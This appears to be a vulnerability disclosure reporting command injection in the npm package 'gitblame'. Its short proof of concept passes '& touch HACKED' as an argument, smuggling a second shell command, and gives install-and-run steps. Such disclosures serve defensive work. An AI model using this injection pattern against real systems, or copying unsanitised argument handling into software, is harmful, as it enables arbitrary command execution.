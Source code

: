 # Description

Command Injection in gitblame

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var gitblame =require("gitblame");
gitblame("& touch HACKED",function(){});
```

2. Execute the following commands in terminal:

```
npm i gitblame # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output using ls command before and after the execution.

